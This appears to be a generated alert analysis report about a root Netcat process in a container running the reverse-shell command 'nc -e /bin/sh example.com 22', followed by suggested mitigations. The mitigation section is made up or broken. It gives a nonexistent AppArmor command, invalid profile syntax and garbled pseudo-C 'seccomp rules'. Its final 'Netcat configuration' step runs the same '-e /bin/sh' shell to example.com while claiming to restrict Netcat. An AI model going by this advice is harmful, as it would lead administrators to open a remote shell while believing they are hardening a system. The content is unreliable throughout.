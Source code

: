 **Alert Analysis Report**

**Summary**

The attached alert is triggered by the detection of a Netcat instance running inside a container, which poses a risk of remote code execution due to the use of `/bin/sh` as an executable. This alert indicates that the `netcat` command has been run with the `-e` flag, allowing it to execute arbitrary code on the server.

**Details**

The alert details show that:

*   The container ID is `c61b4b13ae44`.
*   The process name is `nc`, and its executable path is `/usr/bin/nc`.
*   The command executed by Netcat is `nc -e /bin/sh example.com 22`.
*   The user running the process has elevated privileges (`user_uid=0`).

**Mitigation Strategies**

To mitigate this issue, consider the following steps:

### **Container Configuration**

1.  Update the container configuration to restrict the use of `/bin/sh` or other malicious executables.
2.  Configure the container to only allow `nc` with a valid certificate (e.g., `-c` flag).
3.  Set up a web application firewall (WAF) or intrusion detection system (IDS) to monitor and block suspicious traffic.

### **System Configuration**

1.  Update the system's default shell settings to prevent arbitrary code execution.
2.  Implement a restricted shell configuration using tools like `apparmor` or `seccomp`.
3.  Set up a network policy to block incoming connections on port 22 from unknown IP addresses.

**Example Configuration Commands**

### **AppArmor**

```bash
sudo apparmor-profiles add nc
```

Add the following rules to `/etc/apparmor/d/` directory (create if not exist):

```bash
#include /etc/apparmor/profiles/tcb

/usr/bin/netcat {
    # allow netcat to only accept connections from localhost and 127.0.0.1
    allow network socket local;
}

# ensure that any other processes are restricted
* {
    deny all;
}
```

### **Seccomp**

Add the following rules to `/etc/seccomp/stage2-whitelist.sh` file (create if not exist):

```bash
#include <sys/seccomp.h>

int main(int argc, char *argv[]) {
    // allow netcat to only accept connections from localhost and 127.0.0.1
    set_thread_context({
        SECCOMP_FILTER_ALLOW/netcat acept local;
        SECCOMP_FILTER_DENY/all;
    });

    return 0;
}
```

### **Netcat Configuration**

Run the following command to update Netcat configuration:

```bash
sudo netcat --listen --no-reuse -c /etc/ssl/certs/ca-certificates.crt -e /bin/sh example.com 22
```

This configuration will restrict Netcat from executing arbitrary code and limit its functionality.

**Conclusion**

To mitigate the risk of remote code execution, it's essential to implement a combination of container configurations, system settings, and Netcat restrictions. Regularly monitor the alert logs to detect any suspicious activity and update the configurations accordingly.